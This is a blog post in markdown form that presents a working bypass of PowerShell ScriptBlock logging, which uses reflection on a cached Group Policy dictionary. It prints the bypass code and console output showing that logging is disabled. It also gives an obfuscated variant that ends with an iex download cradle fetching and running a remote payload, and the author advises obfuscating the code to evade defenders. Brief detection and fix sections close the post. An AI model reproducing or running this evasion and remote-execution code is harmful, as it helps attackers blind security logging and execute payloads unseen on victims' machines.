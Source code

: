 ```yaml
---
layout: post
title: "PowerShell ScriptBlock Logging Bypass"
date: 2017-5-18 00:00:01 -0600
tags: PowerShell
---
```


In Windows 10 / PowerShell 5.0, Microsoft introduced several new security features in PowerShell. These included the AMSI, Protected Event Logging, and maybe most importantly **ScriptBlock logging**. The comprehensive ScriptBlock logging now available in PowerShell has presented serious problems for attackers. Now, it is possible for defenders to have access to full logs recording all of an attacker's malicious PowerShell activity. This has caused some to even suggest that the offensive community should move away from PowerShell altogether.

But all is not lost! (At least not yet)

ScriptBlock logging is enabled through a Group Policy setting, and PowerShell will query that Group Policy setting each time it sees a new ScriptBlock to determine if it should be logged. But it would be silly to query Group Policy *for each ScriptBlock*! Why not just query once and cache the result in memory?

Luckily, PowerShell caches the results of it's Group Policies in a utility dictionary, so it can query once, remember the value, and simply return that value the next time someone asks for it. Efficiency! Just one problem. You might remember me talking about some PowerShell reflection black magic in [my last post, where I detailed a ScriptBlock Warning-level log bypass](({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html)). Well, it gets worse. (Or better, however you look at it.) That cached Group Policy dictionary can be altered with some [Matt Graeber style reflection magic](https://twitter.com/mattifestation/status/735261176745988096):

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

And for some evidence...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS> $GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
PS> $GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
PS> "testing 123"
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
```

There you have it: ScriptBlock Logging bypass! The best part? **All of this can be done in memory and without administrative privileges!** No need to edit Group Policy settings and no need to edit registry settings.

As a sidenote, remember that just like [the last bypass I posted]({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html), this only takes affect *after the first ScriptBlock completes*. The bypass itself **will be logged**. With that in mind, I recommend:
* Using obfuscation on the "suspicious" strings in the bypass and/or using the Warning-level log bypass so that the first log doesn't get logged at the warning level
* Executing your payload using a remote download cradle (bonus points for [obfuscating the cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)) so that the payload does not appear in logs at all

Example: [(Gist)](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
iex (New-Object Net.WebClient).downloadstring("https://myserver/mypayload.ps1")
```

But we could probably alter **any** of the values in this dictionary, right? So let's take a look at what's in there:

```
PS> [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static').GetValue($null)

Key                         Value
---                         -----
ProtectedEventLogging       {[EnableProtectedEventLogging, 1], [EncryptionCertificate, -----BEGIN CERTIFICATE-----...
Transcription               {[EnableTranscripting, 1], [OutputDirectory, ]}
ScriptBlockLogging          {[EnableScriptBlockLogging, 1], [EnableScriptBlockInvocationLogging, 1]}
ConsoleSessionConfiguration
ModuleLogging               {[EnableModuleLogging, 1], [ModuleNames, System.String[]]}

```

Hmm...

At first, this looks like there is potential for more abuse. Initial testing has showed that simply replacing the values in the dictionary does *not* work to bypass Transcription logging, Module logging, or ProtectedEventLogging, but this may be a piece of the puzzle and I'll certainly be looking into those next. In the meantime, be sure to **utilize these other logging types in addition to ScriptBlock logging!**

## Detection?

Unfortunately for defenders, there doesn't currently seem to be a lot of great ways to detect this happening. Group Policy and registry entries **will still indicate that all logging types are enabled**. The one piece of evidence you *will* have is the 1 ScriptBlock log that contains the bypass. Defenders could start searching for the bypass within logs, but this could probably be avoided using some more obfuscation techniques.

## Fix?

This could be fixed pretty easily by taking out the Group Policy cache used in PowerShell altogether, though I have no idea how much that could affect performance. If that solution is not a possibility, then this may be a tough fix.
